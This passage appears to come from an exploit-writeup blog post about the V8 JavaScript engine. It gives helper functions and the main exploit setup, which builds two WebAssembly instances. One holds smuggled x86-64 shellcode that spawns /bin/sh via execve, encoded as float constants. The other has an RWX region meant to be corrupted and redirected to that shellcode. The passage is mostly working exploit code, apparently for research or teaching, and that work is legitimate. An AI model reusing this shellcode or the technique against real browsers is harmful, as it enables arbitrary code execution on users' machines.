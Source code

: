 ```js
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
	console.assert(x);
}
```

I have 2 wasm instances because, the first `wasm_code` has our smuggled shellcode, which I have covered in the [ArrayShift Blogpost](./../1728447510508-v8---arrayshift-race-condition./#how-to-smuggle-shellcode), The `wasm_instance_helper` is the object in which we will corrupt and redirect the `RWX` region to our shellcode. 
```js
////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////

// for future - shellcode smuggling
var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;

// to corrupt the pointer here.
var wasm_code_helper = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod_helper = new WebAssembly.Module(wasm_code_helper);
var wasm_instance_helper = new WebAssembly.Instance(wasm_mod_helper);
var f2 = wasm_instance_helper.exports.main;

```
